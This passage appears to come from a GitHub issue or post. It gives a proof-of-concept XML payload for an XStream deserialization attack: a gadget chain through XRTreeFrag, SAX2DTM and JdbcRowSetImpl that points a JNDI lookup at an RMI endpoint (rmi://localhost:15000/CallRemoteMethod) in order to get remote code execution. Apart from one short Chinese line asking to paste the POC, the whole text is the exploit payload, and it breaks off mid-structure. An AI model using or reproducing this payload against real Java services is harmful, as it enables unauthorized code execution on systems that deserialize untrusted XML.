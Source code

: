 粘贴一下POC

```
<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>rmi://localhost:15000/CallRemoteMethod</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
```